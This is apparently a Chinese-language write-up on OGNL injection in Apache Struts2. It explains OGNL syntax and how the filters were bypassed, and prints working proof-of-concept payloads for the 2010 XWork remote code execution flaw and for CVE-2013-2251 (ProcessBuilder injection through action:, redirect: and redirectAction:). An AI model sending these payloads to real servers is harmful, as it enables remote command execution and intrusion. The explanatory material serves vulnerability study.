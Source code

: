 ```
例如：new Java.net.URL("xxxxxx/")

4\. 对静态方法或变量的访问
要引用类的静态方法和字段，他们的表达方式是一样的@class@member 或者@class@method(args)：
例如：@com.javaeye.core.Resource@ENABLE，@com.javaeye.core.Resource@getAllResources

5\. 方法调用
直接通过类似 Java 的方法调用方式进行，你甚至可以传递参数：
例如：user.getName()，group.users.size()，group.containsUser(#requestUser) 
```

以及上下文环境和这个 struts2 设计，当 Struts2 接受一个请求时，会迅速创建 ActionContext，ValueStack，action 。然后把 action 存放进 ValueStack，所以 action 的实例变量可以被 OGNL 访问。

第一个,是 2010 年 7 月 14 号(亮点 1:乌云好象就是这天出生的吧?),"Struts2/XWork < 2.2.0 远程执行任意代码漏洞",POC:

```
?('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&amp;(aaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean("false")))&amp;(asdf)(('\u0023rt.exit(1)')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1 
```

也就是这个经典的 POC,大家开始第一次认识 struts2 漏洞(之前也有，只是那时很少有人去关注,或许很容易就能找到一个 0day(而且是永远的 0day,回溯一下框架历史,我不能再提示了!)。 myibatis 框架也有引入 OGNL 的,亲!

由于 ONGL 的调用可以通过 http 传参来执行，为了防止攻击者以此来调用任意方法，Xwork 设置了两个参数来进行防护：

```
OgnlContext 的属性 'xwork.MethodAccessor.denyMethodExecution'（默认为真）
SecurityMemberAccess 私有字段'allowStaticMethodAccess'（默认为假） 
```

(这里我现在还没想明白,既然都有这步限制了?为什么后面的那些还会出现,难道官方只会看着公布的 PoC 打补丁?)

这里大家都知道,是使用#限制 OgnlContext 'xwork.MethodAccessor.denyMethodExecution'和'allowStaticMethodAccess'上下文访问以及静态方法调用的值设置.而漏洞作者使用十六进制编码绕过了限制,从而调用@java.lang.Runtime@getRuntime()这个静态方法执行命令.

```
java.lang.Runtime.getRuntime().exit(1) （终止当前正在运行的 Java 虚拟机） 
```

在某些 struts2 漏洞中已经开始改变这个观念,因为我们很难再绕过上面的安全限制了.去调用上下文的属性及静态方法执行恶意 java 代码.

但是"危险清单"中还有一个可以利用,OGNL 表达式中居然可以去 new 一个 java 对象(见危险项清单 3.),对于构造 PoC 足够用了，而不需要上面那些条件.(之前也有类似的相关漏洞,我发现官方并不喜欢做代码审计的)

Apache Struts CVE-2013-2251 Multiple Remote Command Execution Vulnerabilities

这里漏洞原理大致是这样,作者一共提供了三个 PoC:

```
http://www.example.com/struts2-blank/example/X.action?action:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'command','goes','here'})).start()} (这个和后面两个是有点区别的，多测试目标时你会发现！)

http://www.example.com/struts2-showcase/employee/save.action?redirect:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'command','goes','here'})).start()}

http://www.example.com/struts2-showcase/employee/save.action?redirectAction:%25{(new+java.lang.ProcessBuilder(new+java.lang.String[]{'command','goes','here'})).start()}

action:
redirect:
redirectAction: 
```

